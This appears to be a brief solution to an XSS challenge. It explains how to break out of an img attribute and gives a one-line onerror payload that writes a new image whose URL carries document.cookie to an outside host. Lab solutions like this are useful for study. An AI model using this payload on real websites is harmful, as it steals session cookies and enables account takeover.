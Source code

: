 # Solution

Terminate the img element then inject a new element.

```html
' onerror="document.getElementById('desc').innerHTML='<img src=&quot;http://google.com/' + document.cookie + '&quot;/>'" '
```
